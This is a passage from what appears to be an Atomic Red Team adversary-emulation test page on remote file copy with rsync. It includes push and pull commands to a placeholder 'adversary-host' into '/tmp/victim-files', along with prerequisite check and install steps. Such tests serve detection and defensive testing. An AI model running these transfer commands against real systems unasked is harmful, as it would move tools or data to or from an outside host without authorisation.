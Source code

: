 
#### Attack Commands: Run with `sh`!  Elevation Required (e.g. root or admin) 


```sh
rsync -r #{local_path} #{username}@#{remote_host}:#{remote_path}
```




#### Dependencies:  Run with `sh`!
##### Description: rsync must be installed on the machine
##### Check Prereq Commands:
```sh
if [ -x "$(command -v rsync)" ]; then exit 0; else exit 1; fi
```
##### Get Prereq Commands:
```sh
(pkg install -y rsync)||(sudo apt-get -y install rsync)
```




<br/>
<br/>

## Atomic Test #2 - rsync remote file copy (pull)
Utilize rsync to perform a remote file copy (pull)

**Supported Platforms:** Freebsd, Linux, macOS


**auto_generated_guid:** 3180f7d5-52c0-4493-9ea0-e3431a84773f





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| remote_path | Path of folder to copy | path | /tmp/adversary-rsync/|
| remote_host | Remote host to copy from | string | adversary-host|
| local_path | Local path to receive rsync | path | /tmp/victim-files|
| username | User account to authenticate on remote host | string | adversary|


#### Attack Commands: Run with `sh`! 


```sh
rsync -r #{username}@#{remote_host}:#{remote_path} #{local_path}
```

